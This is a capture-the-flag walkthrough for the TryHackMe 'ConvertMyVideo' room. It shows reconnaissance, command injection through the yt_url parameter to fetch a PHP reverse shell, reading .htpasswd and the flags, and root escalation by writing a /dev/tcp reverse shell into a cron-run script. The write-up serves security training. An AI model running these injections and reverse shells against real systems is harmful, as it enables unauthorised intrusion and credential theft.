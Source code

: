 # [ConvertMyVideo](https://tryhackme.com/room/convertmyvideo)

## My Script to convert videos to MP3 is super secure

# Hack the machine

## You can convert your videos - Why don't you check it out!

### What is the name of the secret folder?

1. Perform initial reconnaissance using Nmap to identify open ports and services

```bash
nmap -sV IP
```

<img width="904" height="87" alt="SCREEN01" src="https://github.com/user-attachments/assets/bcaee6ee-4485-4ff2-816f-4eaecebf3348" />

2. Conduct directory enumeration using Gobuster to discover hidden directories
   - The enumeration reveals the secret folder: `/admin`

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<img width="549" height="168" alt="SCREEN02" src="https://github.com/user-attachments/assets/effbafbb-a43f-4485-896f-32c8f70d8da9" />

---

### What username is required to access the secret folder?

### What is the user flag?

_The folder is protected by Apache authentication._

1. Navigate to the main application at `http://<TARGET_IP>` and examine the video conversion functionality

2. Identify the application's video URL parameter as a potential injection point. Capture the POST request using Burp Suite or similar proxy tool

3. Exploit command injection vulnerability in the `yt_url` parameter by injecting a command to download and execute a reverse shell

   - `` yt_url=`wget${IFS}http://IP:8000/shell.php` ``

<img width="1053" height="503" alt="SCREEN03" src="https://github.com/user-attachments/assets/c36bea8e-031e-40d8-97e2-949834d06d51" />

4. Create a PHP reverse shell script on the attacking machine

```php
<?php
$ip = '192.168.1.10';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

5. Start an HTTP server to serve the shell script

```bash
python -m SimpleHTTPServer
```

6. Set up a netcat listener to catch the reverse shell

```bash
nc -lvnp 4444
```

7. Submit the malicious payload through the web application, then visit `http://<TARGET_IP>/shell.php` to trigger the reverse shell execution

8. Once the shell is established, navigate to the admin directory and examine its contents

```bash
ls -la
cd admin
ls -la
cat .htpasswd
cat flag.txt
```

<img width="721" height="412" alt="SCREEN04" src="https://github.com/user-attachments/assets/44cb69ef-a9f3-419a-b6f0-e05306097f3b" />

---

### What is the root flag?

1. Navigate to the temporary directory where the web application stores files

```bash
cd /var/www/html/tmp
```

2. Create a malicious script that will be executed by the scheduled task

```bash
echo 'bash -i >& /dev/tcp/IP/5555 0>&1' > clean.sh
```

3. Set up a new netcat listener on a different port to catch the privileged reverse shell. Wait for the scheduled task to execute the script. Once the root shell is obtained, retrieve the root flag

```bash
nc -lvnp 5555
ls -la /root
cat /root/root.txt
```

<img width="718" height="381" alt="SCREEN05" src="https://github.com/user-attachments/assets/0dc531b1-61fb-47a5-a652-31234e09fe30" />
